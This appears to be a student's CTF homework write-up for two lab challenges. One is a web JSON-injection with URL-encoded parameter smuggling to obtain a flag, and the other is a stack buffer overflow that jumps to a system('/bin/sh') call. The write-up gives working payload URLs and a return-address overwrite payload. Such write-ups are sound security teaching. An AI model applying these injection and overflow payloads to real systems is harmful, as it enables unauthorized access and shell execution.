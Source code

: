 # HW0 writeup

## Web - owoHub
> FLAG{owo_ch1wawa_15_th3_b35t_uwu!!!}

1. Check *source code*
   - how to get flag?
   ```js
   // but the function can't be directly access by external users
   if (givemeflag === "yes" && userInfo.admin) response.send(FLAG);
   ```
   - where can be used?
      > `app.get('/auth', (request, response) => { const { username, cute } = request.query;`
      a. only check that `cute` end with `true` or `false`
      ```js
      if (typeof username !== "string" || typeof cute !== "string" || username === "" || !cute.match("(true|false)$"))
      ```
      b. `userInfo` take `cute` from the request query directly
      ```js
      const userInfo = `{"username":"${username}","admin":false,"cute":${cute}}`;
      ```
      c. use `userInfo` define in the previous step in the url and be used to `GET` **internally**
      ```js
      const api = `http://127.0.0.1:9487/?data=${userInfo}&givemeflag=no`;
      ```
2. give a random `username` and `cute`
   `https://owohub.zoolab.org/auth?username=a&cute=true`
3. make `admin` to be true
   `https://owohub.zoolab.org/auth?username=a&cute=true,%22admin%22:true`
   - since `userInfo` is `{"username":"${username}","admin":false,"cute":${cute}}`, by injecting `cute` previous key/value pair `"admin":false`
   - make `cute` to be `true,"admin":true`, `userInfo` will then be `{"username":"a","admin":false,"cute":true}`. That is, `{"username":"a","admin":true,"cute":false}`
4. make `givemeflag` to be `"yes"`
   1. want something like this, `https://owohub.zoolab.org/auth?username=a&cute=true,"admin":true}&givemeflag=yes#true`
      > `}` close the bracket for `useInfo` which make all the things after it not a part of `userInfo`  
      > `#` point a browser to a specific part or page but all characters after `#` will not be sent in request  
      - make `api` to be `http://127.0.0.1:9487/?data={"username":"a","admin":true,"cute":false}&givemeflag=yes#true&givemeflag=no`
      - the actual request being send internally should be `http://127.0.0.1:9487/?data={"username":"a","admin":true,"cute":false}&givemeflag=yes`
   2. try and get `{"error":"Whaaaat owo?"}`
      - currently, `cute` is `false,"admin":true}` so that it doesn't end with `true` or `false`
      - `cute` only take the part before the next `&`
   3. *url encoding* to bypass it
      > find the correspoding encode for `"}&#`  
      - then, the url should be `https://owohub.zoolab.org/auth?username=a&cute=true,%22admin%22:true%7D%26givemeflag=yes%23true`

## pwn - Cafe Overflow
> flag{c0ffee_0verfl0win6_from_k3ttle_QAQ}  
> [solution](./pwn/solve.py)

1. disassemble the binary with `objdump -d -M intel CafeOverflow`
   ```nasm
   401234:	e8 17 fe ff ff       	call   401050 <printf@plt>
   401239:	48 8d 45 f0          	lea    rax,[rbp-0x10]
   40123d:	48 89 c6             	mov    rsi,rax
   401240:	48 8d 3d f6 0d 00 00 	lea    rdi,[rip+0xdf6]        # 40203d <_IO_stdin_used+0x3d>
   401247:	b8 00 00 00 00       	mov    eax,0x0
   40124c:	e8 1f fe ff ff       	call   401070 <__isoc99_scanf@plt>
   ```
   Use `scanf` to get input in the *main function* with a buffer size of `0x10`. Therefore, it's vulnerable to **buffer overflow**. Pad `0x10` characters to fill the gap and 8 more byte to overwrite `rbp` and then its our target, ***the return address***.
2. In order to get the flag, we have to open shell and read the content of the remote file, *flag*.
   ```nasm
   0000000000401176 <func1>:
   401176:	55                   	push   rbp
   401177:	48 89 e5             	mov    rbp,rsp
   40117a:	48 83 ec 10          	sub    rsp,0x10
   40117e:	48 89 c0             	mov    rax,rax
   401181:	48 89 45 f8          	mov    QWORD PTR [rbp-0x8],rax
   401185:	48 b8 fe ca fe ca fe 	movabs rax,0xcafecafecafecafe
   40118c:	ca fe ca 
   40118f:	48 39 45 f8          	cmp    QWORD PTR [rbp-0x8],rax
   401193:	75 22                	jne    4011b7 <func1+0x41>
   401195:	48 8d 3d 68 0e 00 00 	lea    rdi,[rip+0xe68]        # 402004 <_IO_stdin_used+0x4>
   40119c:	e8 8f fe ff ff       	call   401030 <puts@plt>
   4011a1:	48 8d 3d 68 0e 00 00 	lea    rdi,[rip+0xe68]        # 402010 <_IO_stdin_used+0x10>
   4011a8:	e8 93 fe ff ff       	call   401040 <system@plt>
   4011ad:	bf 00 00 00 00       	mov    edi,0x0
   4011b2:	e8 c9 fe ff ff       	call   401080 <exit@plt>
   4011b7:	48 8d 3d 5a 0e 00 00 	lea    rdi,[rip+0xe5a]        # 402018 <_IO_stdin_used+0x18>
   4011be:	e8 6d fe ff ff       	call   401030 <puts@plt>
   4011c3:	90                   	nop
   4011c4:	c9                   	leave  
   4011c5:	c3                   	ret 
   ```
   Find a function, `fun1`, that never been called but call `system("/bin/sh")`. However, if call `func1`, it needs to fulfill certain requirement to jump to where it call `system("/bin/sh")`. Therefore, let it jump to `0x401195` directly.
3. Combine step 1 and 2.
   `payload = 'a' * (0x10 + 8) + p64(0x401195)`
